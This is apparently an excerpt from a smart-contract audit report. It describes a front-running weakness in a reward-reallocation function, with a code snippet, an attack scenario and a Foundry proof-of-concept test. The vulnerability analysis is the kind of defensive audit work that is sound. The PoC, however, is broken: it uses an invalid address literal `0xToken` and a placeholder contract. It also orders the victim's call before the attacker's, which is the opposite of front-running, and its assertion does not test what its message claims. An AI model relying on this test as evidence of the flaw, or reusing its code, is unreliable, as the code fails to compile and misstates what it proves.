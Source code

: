 ```solidity

    _transfer(toToken, userAddress, amountReceived);
    totalReallocatedAmount += amountReceived;
    uint256 rewardAmountIncludingFees = getRewardAmountIncludingFees(amountReceived);
    uint256 rewardsAvailable = claimableRewardAmount();
    if (rewardAmountIncludingFees > rewardsAvailable) {
        revert NotEnoughRewardsAvailable();
    }

    (uint256 userRewards, uint256 fees) = calculateUserRewardsAndFees(rewardAmountIncludingFees);
    pendingRewards += userRewards;
    accumulatedFees += fees;
}
```

**Exploit Scenario:**

1. User A submits a transaction to reallocate tokens and receive rewards.  
2. Attacker observes the transaction in the mempool.  
3. Attacker submits a similar transaction with a higher gas fee.  
4. Attacker drains the available rewards, leaving User A with nothing.

**Foundry Test (POC):**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "src/YourContract.sol";

contract FrontRunningAttackTest is Test {
    YourContract public contractInstance;
    address attacker = address(0x1);
    address victim = address(0x2);
    
    function setUp() public {
        contractInstance = new YourContract();
    }
    
    function testFrontRunning() public {
        vm.startPrank(victim);
        contractInstance.handleReallocation(1, victim, address(0xToken), 100, "");
        vm.stopPrank();

        vm.startPrank(attacker);
        contractInstance.handleReallocation(1, attacker, address(0xToken), 200, "");
        vm.stopPrank();

        uint256 rewards = contractInstance.claimableRewardAmount();
        assertEq(rewards, 0, "Victim received no rewards due to front-running.");
    }
}
```
